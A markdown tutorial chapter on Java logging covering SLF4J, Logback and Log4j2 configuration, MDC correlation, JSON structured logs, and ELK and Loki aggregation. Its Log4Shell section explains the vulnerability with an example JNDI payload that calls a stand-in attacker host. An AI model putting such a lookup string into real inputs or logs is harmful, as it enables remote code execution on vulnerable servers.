



# Logging (SLF4J, Logback, Log4j2, ELK)

Logging is the oldest and most universal observability primitive in Java. Every backend writes logs; every incident response starts with `tail -f`; the structure and discipline of your logging determines how fast you can diagnose problems in production. Modern Java logging means SLF4J as the API, Logback or Log4j2 as the implementation, JSON-structured output, MDC (Mapped Diagnostic Context) for per-request correlation, and a centralized log aggregator (ELK, Loki, Datadog) for searching across hundreds of pods.

This topic covers the Java logging stack from the API down to log shipping, the structured logging conventions that make logs queryable, the Log4Shell disaster and what it taught us, and how to instrument Spring Boot apps for production logging that actually helps during incidents.

> [!NOTE]
> Prerequisites: basic Java experience.

## The Logging Stack



## SLF4J — The Facade

SLF4J (Simple Logging Facade for Java) is the API every Java library should depend on.

```java
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

public class UserService {
    private static final Logger log = LoggerFactory.getLogger(UserService.class);
    
    public User getUser(String id) {
        log.debug("Fetching user {}", id);
        try {
            return repository.findById(id);
        } catch (Exception e) {
            log.error("Failed to fetch user {}", id, e);
            throw e;
        }
    }
}
```

Why SLF4J:
- **Implementation-agnostic**: switch from Logback to Log4j2 without code changes.
- **Parameterized logging**: `log.debug("user {}", id)` — no string concat if debug disabled.
- **Standard**: every Java library logs through SLF4J.

The two production implementations:
- **Logback**: default in Spring Boot. By Ceki Gülcü (author of Log4j 1.x).
- **Log4j2**: rewrite of Log4j 1. Async logger is fastest.

## Spring Boot Default Setup

Spring Boot uses Logback by default. Just log:

```java
@Service
public class CheckoutService {
    private static final Logger log = LoggerFactory.getLogger(CheckoutService.class);
    
    public Receipt checkout(Cart cart) {
        log.info("Processing checkout for cart {}", cart.getId());
        // ...
        log.info("Checkout complete, receipt {}", receipt.getId());
        return receipt;
    }
}
```

Configure via `application.yml`:

```yaml
logging:
  level:
    root: INFO
    com.example: DEBUG
    org.hibernate.SQL: DEBUG
  file:
    name: /var/log/myapp.log
  pattern:
    console: "%d{HH:mm:ss.SSS} %-5level [%thread] %logger{20} - %msg%n"
```

## Log Levels

Standard levels (high → low):
- **ERROR**: something is broken; needs attention.
- **WARN**: unusual but not broken; watch.
- **INFO**: normal lifecycle events.
- **DEBUG**: detailed flow, useful for diagnosing issues.
- **TRACE**: very fine-grained, usually off.

Production setting: INFO root, DEBUG for selected packages during incident.

When to use what:
- `ERROR`: an exception that breaks a request, system failure.
- `WARN`: degraded behavior (cache miss surge), retries, deprecations.
- `INFO`: startup, shutdown, major business events.
- `DEBUG`: per-request flow during dev/incident.
- `TRACE`: virtually never.

## Parameterized Logging (Performance)

Bad:
```java
log.debug("Processing order " + order.getId() + " for user " + userId);
```

Even if debug is disabled, the string concat happens.

Good:
```java
log.debug("Processing order {} for user {}", order.getId(), userId);
```

The `{}` is replaced only if debug is enabled. Slight win in CPU; massive win in allocations.

For expensive computations:
```java
if (log.isDebugEnabled()) {
    log.debug("Order: {}", expensiveSerialize(order));
}
```

## MDC — Mapped Diagnostic Context

MDC adds per-thread context to every log line. The killer feature for distributed systems.

```java
public Response handleRequest(Request req) {
    MDC.put("requestId", req.getRequestId());
    MDC.put("userId", req.getUserId());
    try {
        return processRequest(req);
    } finally {
        MDC.clear();
    }
}
```

Now every log line in this thread includes `requestId` and `userId`. Pattern:
```
%d %level [%X{requestId}] [%X{userId}] %msg%n
```

Output:
```
2026-06-08 10:23:45 INFO [req-abc123] [user-456] Processing checkout
2026-06-08 10:23:46 ERROR [req-abc123] [user-456] DB timeout
```

Now grep by `req-abc123` to see all logs for one request.

Spring Cloud Sleuth / Micrometer Tracing auto-populates MDC with trace IDs.

## Structured Logging (JSON)

Modern practice: log JSON, not plain text. Why:
- Searchable in aggregators.
- Typed fields (numeric, string, boolean).
- No regex parsing.

Logback JSON config (using `logstash-logback-encoder`):

```xml
<configuration>
  <appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
    <encoder class="net.logstash.logback.encoder.LogstashEncoder">
      <includeMdc>true</includeMdc>
    </encoder>
  </appender>
  
  <root level="INFO">
    <appender-ref ref="STDOUT"/>
  </root>
</configuration>
```

Output:
```json
{
  "@timestamp": "2026-06-08T10:23:45.123Z",
  "level": "INFO",
  "logger_name": "com.example.CheckoutService",
  "thread_name": "http-nio-8080-exec-3",
  "message": "Processing checkout",
  "requestId": "req-abc123",
  "userId": "user-456"
}
```

Searchable in Elasticsearch:
```
level:ERROR AND userId:"user-456"
```

## Custom Fields

Log structured fields directly:

```java
import net.logstash.logback.argument.StructuredArguments.*;

log.info("Order placed", 
    keyValue("orderId", order.getId()),
    keyValue("amount", order.getAmount()),
    keyValue("currency", order.getCurrency())
);
```

Output:
```json
{
  "message": "Order placed",
  "orderId": "order-789",
  "amount": 49.99,
  "currency": "USD"
}
```

Now query: `orderId:order-789` or `amount:>100`.

## Logback Configuration Deep Dive

`logback-spring.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration scan="true" scanPeriod="30 seconds">
  
  <springProfile name="!production">
    <appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
      <encoder>
        <pattern>%d{HH:mm:ss} %-5level [%thread] %logger{20} - %msg%n</pattern>
      </encoder>
    </appender>
  </springProfile>
  
  <springProfile name="production">
    <appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
      <encoder class="net.logstash.logback.encoder.LogstashEncoder">
        <includeMdc>true</includeMdc>
        <customFields>{"app":"myapp","version":"${APP_VERSION}"}</customFields>
      </encoder>
    </appender>
  </springProfile>
  
  <root level="INFO">
    <appender-ref ref="STDOUT"/>
  </root>
  
  <logger name="org.hibernate.SQL" level="DEBUG"/>
  <logger name="org.springframework.security" level="DEBUG"/>
</configuration>
```

Key features:
- `scan="true"`: reloads config every 30s without restart.
- Profile-based config: dev = human-readable; prod = JSON.
- Per-package levels.

## Log4j2 — Async Performance

Log4j2's async logger uses LMAX Disruptor for very high throughput (millions of events/sec). Use if logging is the bottleneck:

```xml
<!-- log4j2.xml -->
<Configuration>
  <Appenders>
    <Console name="Console" target="SYSTEM_OUT">
      <JsonLayout includeStacktrace="true" compact="true" eventEol="true"/>
    </Console>
  </Appenders>
  <Loggers>
    <AsyncRoot level="INFO">
      <AppenderRef ref="Console"/>
    </AsyncRoot>
  </Loggers>
</Configuration>
```

Add to `pom.xml`:
```xml
<dependency>
  <groupId>com.lmax</groupId>
  <artifactId>disruptor</artifactId>
</dependency>
```

## Log4Shell — The 2021 Disaster

**CVE-2021-44228**. December 2021. Log4j 2 had a JNDI lookup feature in template strings:

```java
log.info("user: ${jndi:ldap://attacker.com/x}");
```

This would actually contact `attacker.com` and execute arbitrary code. Worse: the dangerous string could come from *user input* (logged headers, usernames). Internet-wide emergency. Every Java backend on earth scrambled to upgrade.

Lessons:
- **Logging is attack surface**.
- **Never log untrusted input verbatim** without sanitization.
- **Keep dependencies updated** (Dependabot, Renovate).
- **Use SLF4J + Logback if you want to avoid this class** (Logback doesn't have JNDI in patterns).

Log4j2 has fixes (≥ 2.17.1) and now disables JNDI lookups by default.

## Log Aggregators

Local stdout logs in Kubernetes aren't useful — they're per-pod and gone when the pod dies.

### ELK Stack (Elasticsearch, Logstash, Kibana)

The classic.



Filebeat tails container logs; ships to Logstash; transforms/enriches; indexes in Elasticsearch; searchable via Kibana.

Trade-offs:
- Powerful queries, dashboards.
- Expensive to operate (Elasticsearch is hungry).
- Schema explosion risk (every log field becomes a field).

### Loki

Grafana's "Prometheus for logs". Doesn't index content; only labels. Much cheaper.



Query in Grafana: `{app="myapp", level="ERROR"} |= "timeout"`.

Indexes labels (`app`, `level`); filters content with grep-like expressions.

### Fluentd / Fluent Bit

CNCF-graduated log shipper. Routes logs to many backends (Elasticsearch, Splunk, Loki, S3).

### Cloud Aggregators

- **CloudWatch Logs**: AWS native.
- **Google Cloud Logging**.
- **Azure Monitor Logs**.
- **Datadog Logs**.

In K8s clusters, just write to stdout/stderr; aggregator picks them up.

## Spring Boot + Kubernetes Best Practice

```yaml
# application-production.yml
spring:
  main:
    banner-mode: off

logging:
  level:
    root: INFO
    com.example: INFO

# Use logback-spring.xml for JSON encoder
```

In K8s, do NOT log to files. Log to stdout. The container runtime collects.

```yaml
# Dockerfile (relevant bit)
# No log directory mount; stdout only.
```

## What To Log

**Always log**:
- Startup config (DB URL, version, profile).
- Shutdown.
- Errors with full stack trace.
- Slow operations (> threshold).
- Auth failures.
- Significant business events (order placed, payment processed).

**Sometimes log** (configurable):
- Request/response (info or debug).
- DB queries (debug).
- External API calls (info).

**Never log**:
- Passwords, tokens.
- Credit card numbers.
- PII (in many jurisdictions).
- Cryptographic keys.
- Full request bodies (may contain secrets).

## Anti-Patterns

> [!WARNING]
> **System.out.println.** No level, no timestamp, no MDC. Use a logger.

> [!WARNING]
> **String concat in log calls.** `log.info("user " + id)` — formats even if disabled.

> [!WARNING]
> **Logging secrets.** Passwords, tokens, PII.

> [!WARNING]
> **Logging entire objects.** Huge payloads, may contain secrets.

> [!WARNING]
> **Excessive DEBUG in production.** Floods disk; expensive.

> [!WARNING]
> **No correlation ID.** Multi-request investigations impossible.

> [!WARNING]
> **Logging to disk in containers.** Pod dies, logs gone.

> [!WARNING]
> **Inconsistent levels.** One service's WARN is another's ERROR.

> [!WARNING]
> **Stack traces in INFO.** Reserve for ERROR.

> [!WARNING]
> **Vague messages.** "Error" tells you nothing. "Failed to fetch user {id} from DB: {reason}".

## Common Misconceptions

> [!WARNING]
> **"More logs = more observable."** Beyond a point, noise drowns signal.

> [!WARNING]
> **"Plain text is simpler."** For machines, JSON is far simpler.

> [!WARNING]
> **"Logback and Log4j2 are equivalent."** Log4j2 async logger is faster; Logback is the Spring Boot default.

> [!WARNING]
> **"Log level can be set per request."** Generally no; logger config is process-wide. MDC adds context but not level.

> [!WARNING]
> **"Aggregation is just nice-to-have."** In K8s, it's mandatory.

## Practice

1. **Basic logging**: write Spring Boot app with INFO/DEBUG/ERROR logs.
2. **Levels**: set `org.hibernate.SQL` to DEBUG. Observe SQL logs.
3. **MDC**: write a filter that adds requestId to MDC. Log with the pattern showing it.
4. **JSON logging**: configure `logstash-logback-encoder`. Verify JSON output.
5. **Structured fields**: log with `keyValue()`. Query specific fields.
6. **Switch to Log4j2**: replace Logback with Log4j2 async logger.
7. **ELK locally**: run Elasticsearch + Kibana via docker-compose. Ship logs from your app.
8. **Loki locally**: run Loki via docker-compose. Query logs in Grafana.
9. **Detect Log4Shell**: scan codebase for vulnerable Log4j version.

## Recap

You should now be able to:

- Use SLF4J as a logging API.
- Configure Logback or Log4j2 as implementation.
- Choose appropriate log levels.
- Use MDC for per-request context.
- Emit structured JSON logs.
- Run an ELK or Loki aggregator.
- Avoid the Log4Shell-class vulnerabilities.
- Write production-quality log statements.

## Next

Continue to [Metrics (Micrometer, Prometheus, Grafana)](./T12-metrics-micrometer-prometheus-grafana.md) — the quantitative observability layer that complements logs.
